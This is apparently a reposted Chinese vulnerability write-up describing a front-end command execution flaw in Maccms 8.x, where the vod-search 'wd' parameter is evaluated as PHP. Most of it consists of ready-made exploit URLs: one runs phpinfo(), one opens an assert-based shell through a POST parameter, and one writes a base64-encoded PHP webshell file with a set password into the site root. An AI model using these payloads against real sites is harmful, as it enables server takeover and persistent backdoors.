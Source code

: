# Maccms 8.x(苹果 cms)命令执行漏洞

> 原文：[http://book.iwonder.run/0day/Maccms/1.html](http://book.iwonder.run/0day/Maccms/1.html)

## 一、漏洞简介

搜索页面搜索参数过滤不严 导致直接 eval 执行 PHP 语句，前台命令执行可 getshell

## 二、漏洞影响

Maccms 8.x

## 三、复现过程

payload：

```
http://0-sec.org/index.php?m=vod-search&wd={if-A:phpinfo()}{endif-A} 
```

![image](img/c7f46dd603e21199f32a75d36307ca09.png)

getshell payload（a）:

```
http://0-sec.org/index.php?m=vod-search&wd={if-A:assert($_POST[a])}{endif-A}

POST

a=phpinfo() 
```

![image](img/a9b7f0e55c3e3bd9a50cc52eb7f0d430.png)

写入网站根目录一句话木马文件 payload（文件名：test.php，密码：test）:

```
http://0-sec.org/index.php?m=vod-search&wd={if-A:print(fputs%28fopen%28base64_decode%28dGVzdC5waHA%29,w%29,base64_decode%28PD9waHAgQGV2YWwoJF9QT1NUW3Rlc3RdKTsgPz4%29%29)}{endif-A} 
```

